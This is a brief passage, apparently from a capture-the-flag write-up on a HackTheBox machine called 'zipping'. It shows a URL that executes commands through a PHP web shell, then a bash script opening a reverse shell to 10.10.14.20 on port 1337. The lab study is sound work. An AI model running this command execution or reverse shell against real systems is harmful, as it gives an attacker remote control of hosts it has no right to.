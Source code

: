 ![](images/2024-01-19-15-45-22.png)

`http://zipping.htb/shop/rcea.php?cmd=ls` succeed rce so now we just revshell

so now create file bash for revshell

```
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.20/1337 0>&1
```

![](images/2024-01-19-15-50-37.png)
